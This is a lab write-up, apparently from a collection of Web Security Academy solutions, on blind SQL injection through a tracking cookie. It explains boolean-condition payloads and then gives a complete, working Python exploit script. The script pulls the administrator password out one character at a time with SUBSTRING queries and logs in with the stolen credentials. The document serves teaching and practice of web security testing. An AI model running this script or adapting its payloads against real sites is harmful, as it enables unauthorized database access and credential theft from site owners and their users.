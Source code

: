```yaml
---
title: '11 SQLi Lab'
description: 'Blind SQL injection for extracting administrator password via conditional responses'
---
```



## Blind SQL injection with conditional responses

<div style="text-align: justify;">
  This lab demonstrates exploiting a blind SQL injection (SQLi) vulnerability via a tracking cookie. The application does not return query results or errors, but includes a "Welcome back" message if the SQL query returns any rows. By modifying the `TrackingId` cookie and testing boolean conditions, we can infer the presence of tables, users, password length, and ultimately extract each character of the administrator password.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- Modify the `TrackingId` cookie to test boolean conditions:
  - `' AND '1'='1` → condition true, Welcome back message appears.
  - `' AND '1'='2` → condition false, Welcome back message disappears.
- Confirm existence of the `users` table and `administrator` user using subqueries.
- Determine password length by sending sequential conditions:
  - `' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>N)='a`
- Extract password character-by-character using `SUBSTRING` in the cookie:
  - `' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`
- Iterate each position until the full password is reconstructed.
- Login as administrator using the extracted password.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests
import sys
import urllib3
from bs4 import BeautifulSoup

# Disable SSL warnings
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

# Burp Suite proxy (optional, comment out if not needed)
proxies = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}

def check_burp():
    """Check if Burp Suite proxy is running."""
    try:
        requests.get("http://127.0.0.1:8080", timeout=3)
    except requests.exceptions.RequestException:
        print("[-] Burp Suite is not running. Please start it and try again.")
        sys.exit(1)

def get_initial_cookies(url):
    """Fetch initial cookies from the application (TrackingId + session)."""
    res = requests.get(url, verify=False, proxies=proxies, timeout=10)
    res.raise_for_status()
    cookies = res.cookies.get_dict()

    if "TrackingId" not in cookies or "session" not in cookies:
        print("[-] Could not fetch TrackingId or session cookie.")
        sys.exit(1)

    print(f"[*] Got TrackingId={cookies['TrackingId']} and session={cookies['session']}")
    return cookies

def send_injection(url, cookies, payload):
    """Send SQLi payload appended to TrackingId cookie and check response."""
    injection = cookies["TrackingId"] + payload
    injected_cookies = {
        "TrackingId": injection,
        "session": cookies["session"]
    }
    res = requests.get(url, cookies=injected_cookies, verify=False, proxies=proxies, timeout=10)
    res.raise_for_status()
    return "Welcome back!" in res.text

def extract_password(url, cookies, max_len=20):
    """Extract administrator password character by character."""
    charset = "abcdefghijklmnopqrstuvwxyz0123456789"
    password = ""

    print("[*] Extracting password...")

    for i in range(1, max_len + 1):
        found = False
        for c in charset:
            payload = f"' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),{i},1)='{c}"
            if send_injection(url, cookies, payload):
                password += c
                print(f"[+] Found character {i}: {c} -> {password}")
                found = True
                break
        if not found:
            print(f"[-] No match found for position {i}. Stopping...")
            break

    return password

def login(url, username, password):
    """Log in using CSRF token and credentials, then check if lab solved."""
    login_url = url.rstrip("/") + "/login"
    session = requests.Session()

    res = session.get(login_url, verify=False, proxies=proxies)
    res.raise_for_status()
    soup = BeautifulSoup(res.text, "html.parser")
    csrf_token = soup.find("input", {"name": "csrf"})["value"]

    data = {
        "csrf": csrf_token,
        "username": username,
        "password": password
    }
    res = session.post(login_url, data=data, verify=False, proxies=proxies)
    res.raise_for_status()

    if "Log out" in res.text:
        print(f"[+] Logged in as {username}. Checking if lab is solved...")
        base_res = session.get(url, verify=False, proxies=proxies)
        base_res.raise_for_status()

        if "Congratulations" in base_res.text:
            print("[+] Lab solved! 🎉")
            return True
        else:
            print("[-] Logged in but lab not solved yet.")
            return False
    else:
        print("[-] Login failed.")
        return False

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>")
        print(f"Example: python {sys.argv[0]} https://example.com")
        sys.exit(1)

    url = sys.argv[1].strip()
    check_burp()

    # Step 1: Get real cookies
    cookies = get_initial_cookies(url)

    # Step 2: Extract administrator password
    password = extract_password(url, cookies, max_len=20)

    if not password:
        print("[-] Failed to extract password!")
        sys.exit(1)

    print(f"[*] Extracted password for administrator: {password}")

    # Step 3: Try to login
    login(url, "administrator", password)

if __name__ == "__main__":
    main()
```